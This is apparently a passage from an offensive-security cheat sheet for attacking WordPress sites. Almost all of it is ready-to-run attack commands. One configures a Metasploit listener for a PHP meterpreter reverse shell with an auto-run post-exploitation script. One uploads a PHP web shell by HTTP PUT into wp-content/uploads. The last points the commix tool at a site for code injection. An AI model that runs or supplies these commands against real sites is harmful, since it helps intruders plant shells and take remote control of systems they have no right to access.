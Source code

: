 ```bash
msfconsole -qx "
    use multi/handler;
    set PAYLOAD php/meterpreter/reverse_tcp;
    set LHOST $NGHOST;
    set LPORT $NGPORT;
    set ReverseListenerBindAddress 127.0.0.1;
    set ReverseListenerBindPort 4444;
    set HandlerSSLCert $CERT;
    set StagerVerifySSLCert true;
    set StageEncoder true;
    set AutoRunScript /tmp/post-exp.rc;
    run -j"
```

{% hint style="info" %}
Upload Shell PUT Method
{% endhint %}

```bash
curl -v $WEBSITE/wp-content/uploads --upload-file /tmp/unk9vvn.php
```

### **Logging**

#### [Commix](https://github.com/commixproject/commix)

{% hint style="info" %}
Code Injection
{% endhint %}

```bash
commix -u $WEBSITE
```
